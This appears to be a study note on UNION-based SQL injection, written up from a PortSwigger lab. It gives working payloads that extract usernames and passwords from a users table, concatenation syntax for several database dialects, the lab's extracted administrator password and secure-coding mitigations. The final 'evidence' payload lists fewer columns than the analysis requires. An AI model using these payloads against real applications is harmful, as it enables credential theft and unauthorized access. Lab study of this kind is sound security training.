


# 💉 UNION SQL Injection (Cross-Table Data Exfiltration)

## 🧠 Core Logical Mechanism (The "Why")
* **Definition:** An advanced exploitation technique where the `UNION` operator is used to bypass table boundaries, allowing an attacker to retrieve records from arbitrary tables within the database instance.
* **Design Flaw:** The application fails to isolate database execution contexts. By allowing raw input manipulation within a `UNION` clause, the application implicitly grants the query authorization to fetch sensitive metadata or administrative credentials from adjacent schemas.

---

## 🛠️ Common Attack Vectors & Payloads
* `' UNION SELECT NULL, username, password FROM users--` -> Extracts data if multiple columns accept text concurrently.
* `' UNION SELECT NULL, username || ':' || password, NULL FROM users--` -> Concatenates credentials into a single string to exfiltrate data through a single text-compatible column.

---

## 🔬 Payload Analysis: `' UNION SELECT NULL, username || '~' || password, NULL FROM users--`
Behind the application, a vulnerable query targeting the product catalog might look like this:
```sql
SELECT id, name, description FROM products WHERE category = 'USER_INPUT';
````

When injecting the cross-table exfiltration payload, the engine executes the following compound logic:

1. **Structural Alignment:** The statement injects three columns (`NULL`, the concatenated string, and `NULL`), perfectly satisfying the column-count requirement of the original schema.
    
2. **Data Hijacking (`FROM users`):** The `FROM users` instruction forces the database interpreter to shift its focus entirely away from the `products` table for the second part of the query, scanning the target credential storage instead.
    
3. **Output Presentation:** The database combines the rows. The web application takes the resulting text stream (e.g., `admin~peter123`) and maps it straight into the UI layout where a product name or description would normally render.
    

## 🧪 Completed Laboratories (PortSwigger)

### Lab 5: SQL injection UNION attack, retrieving data from other tables

- **Objective:** Exploit the SQL injection vulnerability in the product category filter to retrieve usernames and passwords from the `users` table, then use the credentials to log in as the administrator.
    
- **Methodology & Payloads:**
    
    1. Leverage previous mapping findings to establish the correct column count and type compatibility constraints.
        
    2. Craft a target query referencing the `username` and `password` columns from the `users` database table.
        
    3. Inject the payload via Burp Suite Repeater into the vulnerable category parameter.
        
    4. Analyze the HTML response body to locate the leaked administrator credentials.
        
    5. Navigate to the login interface and authenticate successfully using the stolen administrative session tokens.
        

## 🧠 Technical Insight: String Concatenation Operators

- **Database Dialects:** Not all databases concatenate text using the same syntax. When conducting blind or initial exfiltration, understanding the target environment is critical:
    
    - **PostgreSQL / Oracle:** `username || '~' || password`
        
    - **MySQL:** `CONCAT(username, '~', password)`
        
    - **Microsoft SQL Server:** `username + '~' + password`
        

## 📸 Evidence / Flag

* **Target Exploitation Payload:** `' UNION SELECT NULL, username || '~' || password FROM users--` 

* **Extracted Administrative Credentials:** 
	* **Username:** `administrator` 
	* **Password:** `z0qfqm8667qvgtzdejbm` 

* **Screenshots / Notes:** 

	* Captured the raw HTTP response containing the exfiltrated database records within **Burp Suite Proxy (HTTP History)**, identifying the administrative credentials mapped directly into the HTML structure:  * Verified a successful authentication bypass by logging into the application's account panel using the stolen administrative session credentials: 

## 🛡️ Defensive Mitigations (Secure Coding)

- **Defensive Standard:** Implement strict Parameterized Queries (Prepared Statements) across all query filtering mechanisms. Furthermore, enforce the **Principle of Least Privilege (PoLP)** at the database user account level, ensuring the web application’s runtime service account does not possess read access permissions to administrative user tables like `users` or `credentials`.